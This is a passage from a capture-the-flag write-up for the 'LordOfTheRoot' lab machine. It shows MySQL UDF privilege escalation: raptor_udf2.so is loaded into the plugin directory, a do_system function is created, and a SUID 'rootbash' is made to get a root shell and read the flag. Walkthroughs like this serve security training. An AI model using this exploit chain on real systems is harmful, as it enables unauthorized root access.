 		```
	3. Access mysql
		```
		mysql -u root -p darkshadow
		```
	3. Import `raptor_udf.so`
		```
		mysql> create table foo(line blob);
		Query OK, 0 rows affected (0.00 sec)
		
		mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
		Query OK, 1 row affected (0.00 sec)

		mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
		Query OK, 1 row affected (0.00 sec)

		mysql> create function do_system returns integer soname 'raptor_udf2.so';
		Query OK, 0 rows affected (0.00 sec)
		
		mysql> select * from mysql.func;
		+-----------+-----+----------------+----------+
		| name      | ret | dl             | type     |
		+-----------+-----+----------------+----------+
		| do_system |   2 | raptor_udf2.so | function |
		+-----------+-----+----------------+----------+
		1 row in set (0.00 sec)
		```
	4. Create rootbash
		```
		select do_system('cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash');
		```
		![](Pasted%20image%2020220125162255.png)
9. Check if `rootbash` exists
	```
	smeagol@LordOfTheRoot:/tmp$ ls -la
	total 1004
	drwxrwxrwt  4 root    root      4096 Jan 25 08:57 .
	drwxr-xr-x 23 root    root      4096 Sep 22  2015 ..
	drwxrwxrwt  2 root    root      4096 Jan 25 07:52 .ICE-unix
	-rw-rw-r--  1 smeagol smeagol   3314 Jan 25 00:27 raptor_udf2.c
	-rw-rw-r--  1 smeagol smeagol   3192 Jan 25 08:46 raptor_udf2.o
	-rwxrwxr-x  1 smeagol smeagol   8418 Jan 25 08:46 raptor_udf2.so
	-rwsr-s--x  1 root    root    986672 Jan 25 08:56 rootbash
	-r--r--r--  1 root    root        11 Jan 25 07:52 .X0-lock
	drwxrwxrwt  2 root    root      4096 Jan 25 07:52 .X11-unix
	smeagol@LordOfTheRoot:/tmp$ 
	```
10. Obtain root shell
	![](Pasted%20image%2020220125162422.png)
11. Flag
	```
	rootbash-4.3# cat Flag.txt 
	“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
	– Gandalf
	rootbash-4.3# 
	```
